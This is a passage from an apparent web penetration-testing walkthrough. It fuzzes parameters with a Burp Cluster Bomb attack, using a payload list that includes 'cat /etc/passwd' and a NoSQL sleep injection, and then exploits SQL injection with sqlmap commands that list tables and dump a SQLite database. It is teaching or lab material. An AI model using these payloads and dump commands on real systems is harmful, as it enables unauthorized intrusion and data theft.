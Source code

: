 Payloads:
```
whoami
id
cat /etc/passwd
uname -a
{"$where": "sleep(1000) "}
;%00
-- -
```

Disable Payload Encoding for both payloads

![image](https://flowhero.github.io/assets/images/shemas/2023_08_01_144311.png)

Start *Cluster Bomb* Attack
![image](https://flowhero.github.io/assets/images/shemas/2023_08_01_150346.png)

Look at resonses to see if there's a command injection vector, since there is nothing,
**We test another Parameter**, here we succeded in 2nd attempt:

![image](https://flowhero.github.io/assets/images/shemas/2023_08_01_150732.png)

We can test for SQL injection by adding a `'` to the string.

![image](https://flowhero.github.io/assets/images/shemas/2023_08_01_145555.png)

### 2 - Exploiting

As we can see, we are able to perform sql injections in this string !

![image](https://flowhero.github.io/assets/images/shemas/2023_08_01_145806.png)

Copy as request and feed it to `sqlmap` , you need to add `*` in instead of `'` so that sqlmap procceses it

![image](https://flowhero.github.io/assets/images/shemas/2023_08_01_152154.png)

```sh
sqlmap -r req.txt -tables --batch
```

![image](https://flowhero.github.io/assets/images/shemas/2023_08_01_152751.png)

Now]]dump the 

```sh
sqlmap -r request.txt -dbms=sqlite -dump
```

Then check results in **cli** or from **files**

![image](https://flowhero.github.io/assets/images/shemas/2023_08_01_152845.png)

## VII - XSS, HTML Injection
